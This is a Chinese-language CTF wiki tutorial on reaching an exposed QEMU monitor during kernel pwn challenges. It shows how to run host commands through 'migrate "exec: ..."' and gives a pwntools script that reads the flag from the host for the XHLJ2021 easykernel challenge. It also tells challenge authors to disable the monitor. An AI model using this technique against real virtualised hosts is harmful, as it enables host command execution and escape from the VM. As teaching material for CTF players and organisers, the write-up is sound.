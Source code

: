 # 利用 QEMU Monitor 读取 flag

QEMU monitor 是 QEMU 内置的一个交互式控制台窗口，主要用于监控和管理虚拟机的状态。由于 Linux kernel pwn 题目通常使用 QEMU 创建虚拟机环境，因此若是未禁止选手对 QEMU monitor 的访问，则选手可以直接获得整个虚拟机的访问权限。同时，由于 QEMU monitor 支持在 host 侧执行命令，因此也可以直接读取题目环境中的 flag，这同时意味着我们还能可以利用 QEMU monitor 完成虚拟化逃逸。

> 对于出题人而言，应当时刻保证 `QEMU` 的参数包含一行 `-monitor none` 或是 `-monitor /dev/null` 以确保选手无法访问 QEMU monitor。

通常情况下，进入 QEMU monitor 的方法如下：

- 首先同时按下 `CTRL + A`
- 接下来按 `C`

使用 pwntools 脚本时，可以通过发送 `"\x01c"` 完成，例如：

```python
p = remote("localhost", 11451)
p.send(b"\x01c")
```

在 QEMU monitor 当中有一条比较好用的指令叫做 `migrate`，其支持我们执行特定的 URI：

```
(qemu) help migrate
migrate [-d] [-r] uri -- migrate to URI (using -d to not wait for completion)
                         -r to resume a paused postcopy migration
```

其中，URI 可以是 `'exec:<command>'` 或 `tcp:<ip:port>` ，前者支持我们直接在宿主机上执行命令，例如下面的命令在宿主机上执行了 `ls` 命令：

```
migrate "exec: sh -c ls"
```

有的时候可能会由于一些特殊原因遇到没有输出的情况，这个时候可以尝试将 stdout 重定向至 stderr，例如：

```
(qemu) migrate "exec: whoami"
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) migrate "exec: whoami 1>&2"
arttnba3
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) 
```

## 例题： 西湖论剑2021线上初赛 - easykernel

题目附件可在 [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/XHLJ2021-easykernel](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/XHLJ2021-easykernel) 下载。

### 分析 && 利用

首先查看启动脚本，可以发现没有禁止 QEMU monitor：

```bash
#!/bin/sh

qemu-system-x86_64  \
-m 64M \
-cpu kvm64,+smep \
-kernel ./bzImage \
-initrd rootfs.img \
-nographic \
-s \
-append "console=ttyS0 kaslr quiet noapic"
```

因此我们可以直接通过 QEMU monitor 读取宿主机上的 flag，这里 flag 存放在 `rootfs.img.gz` 中，因此我们使用 `strings|grep` 进行过滤：

```python
from pwn import *

def recvuntil_filter(p, target):
    target_len = len(target)
    s = b''
    ignore_next = False
    while True:
        ch = p.recv(1)
        if ignore_next:
            ignore_next = False
            continue

        if ch == b'\x1b':
            ch = p.recv(2)
            if ch == b'[D':
                ignore_next = True
            elif ch == b'[K':
                s = b''
            else:
                print("Unhandled escape sequences : {}".format(ch))
            continue

        if ch[0] < 0x20 or ch[0] > 0x7E:
            continue

        s += ch
        if s[-target_len:] == target:
            return s

def main():
    p = process('./start.sh')
    p.recvuntil(b"/ $")
    p.send(b"\x01c")
    p.recvuntil(b"monitor - type 'help' for more information")
    p.sendline(b'migrate "exec: gunzip -c ./rootfs.img.gz | strings | grep -i flag{ 1>&2"')

    recvuntil_filter(p, b'grep -i flag{')
    flag = recvuntil_filter(p, b'flag{')
    flag += recvuntil_filter(p, b'}')
    print(flag.decode())

if __name__ == '__main__':
    main()
```
